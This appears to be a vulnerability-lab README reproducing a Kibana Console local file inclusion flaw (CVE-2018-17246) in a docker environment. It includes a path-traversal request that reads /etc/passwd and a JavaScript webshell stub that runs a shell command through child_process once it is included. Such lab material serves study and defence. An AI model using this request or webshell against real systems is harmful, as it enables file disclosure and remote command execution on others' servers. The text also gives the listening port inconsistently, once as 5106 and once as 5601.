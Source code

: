 # Kibana Local File Inclusion (CVE-2018-17246)

[中文版本(Chinese version)](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

## Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduce

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker compose logs`:

![](1.png)

File `/etc/passwd` is imported successfully.

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

![](2.png)
